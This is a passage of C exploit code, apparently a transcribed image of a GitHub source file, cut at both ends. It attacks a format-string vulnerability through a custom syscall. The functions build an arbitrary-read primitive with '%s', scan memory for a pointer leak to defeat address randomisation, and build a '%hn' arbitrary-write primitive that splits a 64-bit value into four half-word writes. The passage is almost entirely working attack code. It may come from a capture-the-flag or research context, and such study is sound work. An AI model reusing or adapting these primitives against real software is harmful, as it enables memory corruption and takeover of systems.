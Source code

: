 ```c
    }

    return ptr;
}

uint64_t arb_read(uint64_t ptr){
    clear_stdin();
    char *data[] = {"%s", ptr};
    syscall(SYSCALL_NO, data);
}

uint64_t arb_read_ptr(uint64_t ptr){
    char tmp[8];
    uint64_t ret;
    
    arb_read(ptr);
    ret = read_ptr_stdin();

    if(strlen(&ret) != 8){
        for(int i = 0; i < 8; i++){
            arb_read(ptr + i);
            tmp[i] = read_ptr_stdin() & 0xff;
        }
        ret = *(uint64_t *)tmp;
    }

    return ret;
}

uint64_t get_leak(){
    uint64_t leak, ptr;
    int offset = 0;

    char *data[] = {"12345678"};
    syscall(SYSCALL_NO, data);

    read_ptr_stdin();
    ptr = read_ptr_stdin();

    printf("%p\n", ptr);    
    clear_stdin();

    while((leak & 0xffff) != 0x4ec0){
        leak = arb_read_ptr(ptr + offset);

        offset += 8;
    }

    return leak;
}

void write_long(uint64_t where, uint64_t what){
    char fmt[0x50];
    uint32_t part1 = what & 0xffffffff, part2 = what >> 32;
    uint16_t part1_lower = part1 & 0xffff, part1_upper = part1 >> 16;
    uint16_t part2_lower = part2 & 0xffff, part2_upper = part2 >> 16;

    sprintf(fmt, "%%%dc%%1$hn%%%dc%%2$hn%%%dc%%3$hn%%%dc%%4$hn", part1_lower, 
    (part1_upper > part1_lower) ? part1_upper - part1_lower : part1_upper - part1_lower + 0x10000,
    (part2_lower > part1_upper) ? part2_lower - part1_upper : part2_lower - part1_upper + 0x10000,
    (part2_upper > part2_lower) ? part2_upper - part2_lower : part2_upper - part2_lower + 0x10000
    );

```